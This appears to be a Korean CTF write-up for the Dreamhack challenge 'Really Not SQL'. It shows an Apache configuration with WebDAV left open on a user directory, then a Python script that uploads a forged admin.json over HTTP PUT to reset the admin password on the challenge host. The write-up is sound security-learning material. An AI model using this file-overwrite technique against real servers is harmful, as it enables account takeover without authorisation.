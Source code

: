 ```yaml
---
layout: post
title: "[DH]Really Not SQL"
date: 2025-08-07 12:04 +0900
---
```

### **INFO**
![chall]
_Fig 1. Challenge_

보안적으로 취약한 설정을 찾아, 파일 덮어쓰기를 통해 익스플로잇을 하는 문제이다.

### **RECON**
아파치-PHP 스택을 사용하는 웹 서버의 내부 코드가 주어진다. 
이떄, admin, guest의 계정이 주어진 것을 확인할 수 있으며, admin으로 로그인하면 flag.php를 통해 서버 내부의 플래그 값을 입력할 수 있다.

### **SOLUTION**
admin 게정은 json으로 관리되며, /var/www/http/user/admin.json 경로로 접근이 가능하다.

edit_profile.php 파일에서 계정의 비밀번호를 수정할 수 있는 기능이 존재하지만, admin 계정의 세션 인증이 필요하기 때문에 접근할 수 없다.

서버의 설정 파일을 확인해보자. 아파치 웹 서버에서 기본적으로 생성되는 000-default.conf 파일을 보면, `/var/www/http/user` 경로에 취약하게 설정이 된 것을 확인할 수 있다.

```js
  <Directory /var/www/html/user/>
      DAV On                    // WebDav 기능 활성화
      Options Indexes           // index.html(.php) 가 없으면 파일리스트 출력
      AllowOverride All         // .htaccess 파일을 통한 설정 덮어쓰기 허용
      Require all granted       // 누구에게나 해당 폴더 접근 허용
  </Directory>
```

WebDav에 대한 설명은 다음 [링크](https://umbum.dev/562/)를 참고하길 바란다. 

### **POC**

DAV On 설정을 통해 /var/www/html/user 경로에 파일을 덮어쓸 수도, 파일을 새로 올릴 수도 있다.

admin 계정으로 로그인하는 것이 목표이기 때문에, 파일 업로드 공격을 시도했다.

임의의 비밀번호를 sha-256 해시한 값을 업로드할 json 파일에 넣고, requests로 서버에 업로드하였다.

```json
{"no": 0, "id": "admin", "password": "{NEW_PASSWORD}"}
```

```py
import requests

url = "http://host8.dreamhack.games:24093/user/admin.json"


file_path = './new_admin.json'

with open(file_path, 'rb') as f:
    res = requests.put(url, data=f)

print(f'HTTP 상태 코드: {res.status_code}')
if res.status_code in [200, 201, 204]:
    print('파일 업로드(수정) 성공!')
else:
    print('업로드 실패')
```

이제 admin 계정으로 로그인이 가능해지며, flag.php 경로를 입력하면 플래그를 획득할 수 있다.

![login]

[chall]: /assets/DreamHack/reallynotsql/chall.png
[login]: /assets/DreamHack/reallynotsql/solution_login.png